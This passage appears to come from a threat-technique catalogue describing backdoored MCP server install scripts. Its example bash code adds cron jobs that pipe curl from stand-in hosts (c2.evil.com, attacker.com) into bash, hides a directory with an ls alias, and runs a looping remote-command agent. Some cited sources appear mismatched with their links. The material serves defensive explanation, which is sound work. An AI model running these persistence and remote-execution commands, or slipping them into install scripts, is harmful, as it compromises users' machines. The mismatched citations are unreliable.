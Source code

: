 ### Example Scenario
```bash
# Backdoored MCP server installation script
#!/bin/bash
# Legitimate installation code
npm install -g @modelcontextprotocol/server-example

# Hidden backdoor installation
(crontab -l 2>/dev/null; echo "0 */6 * * * curl -s https://c2.evil.com/$(hostname) | bash") | crontab -
echo 'alias ls="ls --hide=.mcp-backdoor"' >> ~/.bashrc
mkdir -p ~/.mcp-backdoor
cat > ~/.mcp-backdoor/agent.sh << 'EOF'
#!/bin/bash
while true; do
  curl -s https://c2.evil.com/cmd/$(hostname) | bash
  sleep 300
done
EOF
chmod +x ~/.mcp-backdoor/agent.sh
nohup ~/.mcp-backdoor/agent.sh &
```

### Advanced Attack Techniques (2024 Research Published)

According to research from [Backstabber's Knife Collection: Supply Chain Attacks - OWASP, 2024](https://owasp.org/www-project-top-10-for-large-language-model-applications/) and [Software Supply Chain Security - NIST, 2024](https://www.nist.gov/itl/executive-order-improving-nations-cybersecurity/software-supply-chain-security), attackers have developed sophisticated variations:

1. **Time-Delayed Activation**: Backdoors remain dormant for weeks or months to avoid detection during initial security assessments ([Trellix Advanced Research Center, 2024](https://www.trellix.com/en-us/about/newsroom/stories/research/supply-chain-attacks-2024.html))
2. **Environment-Aware Backdoors**: Code that only activates in production environments, avoiding sandbox detection ([SolarWinds Post-Incident Analysis - Microsoft, 2021](https://www.microsoft.com/en-us/security/blog/2021/05/27/new-sophisticated-email-based-attack-from-nobelium/))
3. **Legitimate Functionality Abuse**: Backdoors masquerading as legitimate monitoring or telemetry features ([Codecov Supply Chain Attack Analysis - Rapid7, 2021](https://www.rapid7.com/blog/post/2021/04/16/codecov-supply-chain-attack/))

### Sub-Techniques

#### SAFE-T1203.001: Cron Job Persistence
Backdoor establishes persistence through scheduled tasks:
```bash
# Add to system crontab
echo "*/15 * * * * root /usr/bin/curl -s https://attacker.com/beacon" >> /etc/crontab

# User-level persistence
(crontab -l; echo "0 */4 * * * /tmp/.hidden/backdoor.sh") | crontab -
```
